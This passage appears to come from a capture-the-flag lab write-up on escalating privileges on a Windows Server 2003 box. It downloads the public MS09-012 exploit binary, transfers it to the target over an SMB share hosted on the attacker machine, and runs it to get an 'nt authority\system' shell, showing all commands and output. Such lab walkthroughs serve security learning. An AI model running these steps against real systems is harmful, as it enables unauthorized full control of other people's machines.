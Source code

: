 So I did some more research about "Windows 2003 SP2 32-bit" and I found this repository [https://github.com/SecWiki/windows-kernel-exploits/tree/master/MS09-012](https://github.com/SecWiki/windows-kernel-exploits/tree/master/MS09-012), download the code like so :

```
wget https://github.com/SecWiki/windows-kernel-exploits/raw/master/MS09-012/pr.exe
```

Start a smbserver on my machine for easy transfer :

```
sudo smbserver.py liodeus ./
```

Then copy the exploit over the machine :

```
copy \\10.10.14.10\liodeus\pr.exe .
```

I first try the whoami command to see if the exploit works :

```
C:\WINDOWS\Temp>pr.exe "whoami"
pr.exe "whoami"
/xxoo/-->Build&&Change By p 
/xxoo/-->This exploit gives you a Local System shell 
/xxoo/-->Got WMI process Pid: 1848 
begin to try
/xxoo/-->Found token SYSTEM 
/xxoo/-->Command:whoami
nt authority\system
```

I'm "nt authority\system", it's a win, now get a shell as "nt authority\system" :

```
C:\WINDOWS\Temp>pr.exe "cmd.exe"
pr.exe "cmd.exe"
/xxoo/-->Build&&Change By p 
/xxoo/-->This exploit gives you a Local System shell 
/xxoo/-->Got WMI process Pid: 1848 
begin to try
/xxoo/-->Found token SYSTEM 
/xxoo/-->Command:cmd.exe
Microsoft Windows [Version 5.2.3790]
(C) Copyright 1985-2003 Microsoft Corp.

C:\WINDOWS\Temp>whoami
whoami
nt authority\system
```

I now have a shell as "nt authority\system" and can now read the flags !

## Flags

